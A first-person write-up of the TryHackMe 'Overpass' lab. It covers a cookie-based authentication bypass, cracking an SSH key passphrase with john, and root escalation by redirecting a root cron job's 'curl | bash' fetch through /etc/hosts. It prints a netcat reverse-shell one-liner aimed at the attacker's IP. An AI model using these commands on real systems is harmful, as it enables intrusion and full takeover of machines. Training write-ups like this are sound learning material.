 ```yaml
---
layout: default
---
```

# Overpass Writeup

This is my writeup for the room [Overpass](https://tryhackme.com/room/overpass) in tryhackme. Hope it helps you :D

## Enumeration

First we'll start scanning ports with nmap.

```
nmap -A -sC -v <MACHINE_IP>
```

![Nmap Results](/assets/images/overpass/nmap-results.png)

Okay, we have ssh and a web server running, lets take a look at the website.

The web server is running the site Overpass where you can download the source code of their password manager and see information about them, i couldn't find anything looking at the source code of the pages so i went on to scan the directories of the site.

![Gobuster Results](/assets/images/overpass/gobuster-results.png)

Oh look, a /admin directory, thats certainly interesting, it is a login page.

## Broken Authentication

Okay, in this part i got a litte bit stuck, i tried sql injection, tried a little bit of brute forcing with the names in the aboutus page, read over and over the password manager source code and the javascript files.

I was frustrated thinking to myself that just when i thought i was getting the hang in penetration testing i couldn't even do an easy room. So i started trying things that in my head made no sense but screw it.

So let's take a look in the login.js file.

![login.js](/assets/images/overpass/login.js.png)

This login function sends a post request to /api/login and if the credentials are correct, it stores a cookie called SessionToken.

Then i set the cookie SessionToken in my browser with a random value... And it worked.

Okay, when it worked it didn't made a lot of sense to me, i thought "who in their right minds would just check if a cookie is set and not validate it to let the user log in", thats when i went to see some small web apps i made in the past and saw that this is probably more common than i thought.

But okay, now we see this beautiful page.

![Admin Page](/assets/images/overpass/admin-page.png)

## Enter the machine with SSH

Poor james can't remember his password, and now we have his SSH key. Lets try lo login in ssh with it.

![SSH Login Try](/assets/images/overpass/ssh-login-try.png)

It needs a password so we'll bruteforce it.

I used john the ripper to crack it because i dont know another way to do it, so first we use ssh2john to get the hash of the password.

![ssh2john](/assets/images/overpass/ssh2john.png)

And then i use john to crack the hash.

![password](/assets/images/overpass/pass.png)

Now we log in the machine and there is the first flag.

![user.txt](/assets/images/overpass/user.txt.png)

## Privilege escalation

Okay, first things first lets read this todo.txt file, okay, in the file james says something about storing his password in their password manager so i searched for an overpass file and i found it in /usr/bin/overpass and executing it we can get james password, but it doesnt help us with privilege escalation.

The interesting part of the todo.txt file is where it says something about an automated build script, so i decided to check /etc/crontab and over there i found this.

```
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

This executes the script located on overpass.thm/downloads/src/buildscript.sh every minute as root, interesting ...

So i ran linpeas on the machine and it shows that there is a interesting file that we have the privileges to write.

![linpeas](/assets/images/overpass/linpeas.png)

When i saw this i found it suuuper cool, i loved the idea of using /etc/hosts file to change the webserver that the machine will send a request.

So i went back to my machine and made the file downloads/src/buildscript.sh and inside the file i used a reverse shell from [PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```
mkdir downloads
mkdir downloads/src
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_VPN_IP> 1234 >/tmp/f" > downloads/src/buildscript.sh
```

Then i started a python webserver on my machine.

```
sudo python3 -m http.server 80
```

In another terminal i started a netcat listener on port 1234

```
nc -lvnp 1234
```

And then in the remote machine i edited the /etc/hosts and changed the ip of overpass.thm to the ip of my machine.

![/etc/hosts](/assets/images/overpass/hosts.png)

Now we wait until the script gets executed and we can get a reverse shell as root.

![root.txt](/assets/images/overpass/root.txt.png)

And there we have it, the root flag.

This is my first writeup and i hope it helps you that is reading it, i had a lot of fun doing this room and wanted to thanks [James](https://tryhackme.com/p/NinjaJc01) for doing it because his rooms are awesome :DD
